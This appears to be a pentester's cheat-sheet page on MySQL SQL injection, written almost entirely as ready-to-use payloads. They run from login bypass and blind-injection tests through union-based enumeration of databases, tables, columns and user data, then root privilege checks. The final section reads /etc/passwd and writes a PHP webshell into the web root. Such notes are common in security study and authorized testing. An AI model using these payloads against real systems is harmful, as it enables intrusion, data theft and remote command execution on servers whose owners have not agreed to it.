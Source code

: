 ```yaml
---
icon: syringe
---
```


# SQLi

{% hint style="info" %}
### <mark style="color:green;">`Python`</mark> <mark style="color:purple;">doesn't need</mark> <mark style="color:orange;">`;`</mark> <mark style="color:purple;">at the end!</mark>
{% endhint %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}
Auth Bypass
{% endembed %}

***

{% hint style="info" %}
### <mark style="color:purple;">Recon</mark>

{% code title="Basic test" %}
```sql
' or 1=1-- -;
```
{% endcode %}

{% code title="Test for blind injection" %}
```sql
' OR SLEEP(5) -- 
```
{% endcode %}

### <mark style="color:purple;">Union</mark>

* <mark style="color:purple;">Find the number of columns:</mark>

```sql
' order by 1-- -
```

```sql
' order by 1,2-- -
```

* <mark style="color:purple;">Detect the number of column using</mark> <mark style="color:orange;">**`Union`**</mark><mark style="color:purple;">:</mark>

```sql
' union select 1-- -;
```

```sql
' union select 1,2-- -;
```

```sql
' union select 1,2,3-- -;
```

```sql
' union select 1,2,3,4-- -;
```

* <mark style="color:purple;">Once you know the number of columns:</mark>

{% code title="Current database" %}
```sql
' union select 1,2,3,database()--;
```
{% endcode %}

{% code title="Database version" %}
```sql
' UNION select 1,@@version,3,4-- -
```
{% endcode %}

{% code title="Current User" %}
```sql
' UNION SELECT 1,user(),3,4-- -
```
{% endcode %}

{% code title="Concatenation" overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

#### <mark style="color:orange;">`Information_schema`</mark>

* <mark style="color:purple;">If you want to know how many databases there are:</mark>

{% code title="Information Schema" overflow="wrap" %}
```sql
' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -;
```
{% endcode %}

* <mark style="color:purple;">To look how many tables in a database:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'database'-- -;
```
{% endcode %}

* <mark style="color:purple;">To look how many columns in a table:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = 'table'-- -;
```
{% endcode %}

* <mark style="color:purple;">To look the content of the columns:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

### <mark style="color:purple;">Privileges</mark>

{% code title="Checks admin privileges" overflow="wrap" %}
```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
{% endcode %}

{% code title=" Extracting privilege details of the root user" overflow="wrap" %}
```sql
' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
{% endcode %}

{% code title="Find which directories can be accessed" overflow="wrap" %}
```sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
{% endcode %}

### <mark style="color:purple;">File Injection</mark>

{% code title="Read local file" overflow="wrap" %}
```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
{% endcode %}

{% code title="Write a string to a local file" overflow="wrap" %}
```sql
`select 'file written successfully!' into outfile '/var/www/html/proof.txt
```
{% endcode %}

{% code title="Creates a webshell" overflow="wrap" %}
```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`
```
{% endcode %}
{% endhint %}


